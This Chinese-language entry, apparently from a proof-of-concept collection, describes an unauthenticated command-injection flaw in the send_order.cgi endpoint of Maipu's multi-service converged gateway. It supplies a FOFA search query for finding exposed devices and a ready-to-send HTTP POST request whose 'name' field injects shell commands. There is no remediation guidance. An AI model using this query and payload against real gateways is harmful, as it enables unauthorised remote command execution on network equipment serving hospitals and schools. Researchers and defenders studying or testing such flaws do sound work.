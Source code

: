## 迈普多业务融合网关send_order.cgi存在命令执行漏洞

迈普多业务融合网关是迈普通信技术股份有限公司自主研发的多业务无线融合网关，拥有融合网关功能、精准流控、上网行为管理、智能选路…等强大功能，并支持对接迈普云平台，实现远程运维和集中管理，很好的满足了医疗/教育等场景要求的全面一体化的网络需求。迈普多业务融合网关send_order.cgi存在命令执行漏洞，未经身份验证的远程攻击者可利用此漏洞执行任意系统指令，从而获取服务器权限。

## fofa

```
title=="迈普多业务融合网关"
```

## poc

```
POST /send_order.cgi?parameter=operation HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64MHhzZWM=; x64; rv:99.0) Gecko/20100101 Firefox/99.0
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
 
{"opid":"1","name":";id;uname -a;","type":"rest"}
```

